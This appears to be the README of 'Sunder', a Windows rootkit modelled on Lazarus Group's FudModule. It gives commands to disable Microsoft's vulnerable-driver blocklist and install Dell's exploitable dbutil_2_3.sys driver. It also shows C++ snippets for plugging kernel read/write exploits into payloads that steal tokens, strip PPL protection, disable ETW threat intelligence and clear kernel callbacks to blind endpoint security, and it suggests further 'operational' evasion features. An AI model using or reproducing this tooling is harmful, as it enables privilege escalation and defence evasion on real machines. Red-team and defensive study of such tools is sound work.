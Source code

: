 # Sunder
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference my [theHandler project]() for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit (and not blocked as of October 2024). 

*theHandler is coming soon. I will update the link to it once released.*

This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).

![PPL editing payload](images/ppl.PNG)

The vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following command and reboot to allow loading blocked drivers:
```
bcdedit /debug on
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
shutdown -r
```

Sunder contains the following payloads ([See the images directory for screenshots](images)):
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Token Escalation - Add permissions to a given process 
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Clear DLL callbacks - Clear all DLL image load notification callbacks 

## Requirements
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
# Set the binPath to the full filepath to dbutil_2_3.sys
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*

Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 

## Usage
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run; enter a number to execute a post-exploitation payload. 

## Stability
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for a single version of Windows OS; therefore, executing the rootkit on untested OS versions will likely result in a Blue Screen of Death (BSOD).

The rootkit has been tested on the following Windows versions:
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 26100 

## Improvements and Additions
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.

### Improvements
- Include offsets for various Windows OS versions
- Create the Kernel driver service from rootkit code
- Clean up driver and service on exit
- Convert interactive post-ex prompts into commandline arguments
- Encrypt or hash plaintext strings

### Feature Additions
- Disable object/registry callbacks
- Disable ETW providers
- Disable minifilter drivers
- Suspend EDR threads 

## Updating the Exploit
The following sections describe how to utilize the rootkit with newer kernel exploits.

### Background Information
Understanding the following structs and function prototypes is necesssary for proper usage of this library.

EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 

The EXP_OUT struct is as follows:
```
// Define struct passed in from exploit (Add additional parameters if necessary)
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
typedef struct _EXP_OUT
{
	LPVOID readprimitive;					//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;					//	Cast this to _writeqword in rootk()
	DWORD myProcessId;						// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE vulnDriver;						// For use in cases where IOCTLs must be called for every read/write 
	ULONGLONG systemEprocess;					// To iterate through EPROCESS list
	ULONGLONG KeInsertQueueApc;					// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
} EXP_OUT, * PEXP_OUT;
```

Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.

This library uses the following prototypes for read and write primitive functions:
```
// Define read and write primitive functions (hDriver can be NULL in some exploits)
typedef ULONGLONG(__fastcall* _readqword)(
	HANDLE hDriver,
	ULONGLONG readwhere
	);
typedef void(__fastcall* _writeqword)(
	HANDLE hDriver,
	ULONGLONG writewhere,
	ULONGLONG writewhat
	);
```

### Adding the Code
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
```
#include "rktools.h"
```

Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
```
	PEXP_OUT rootStruct = new EXP_OUT;
```

Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
```
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->writeprimitive = (LPVOID)writeqword;
```

Obtain the process ID (PID) of the current process:
```
	DWORD myPid = GetCurrentProcessId();
	rootStruct->myProcessId = myPid;
```

Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
```
	rootStruct->KeInsertQueueApc				= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
```

Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
```
	rootStruct->vulnDriver = hDriver;		// Pass vulnerable driver's handle to struct
```

Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
``` 
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
```

Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
```
    	rootk(rootStruct);					// Call rootkit functionality for post-exploitation
```


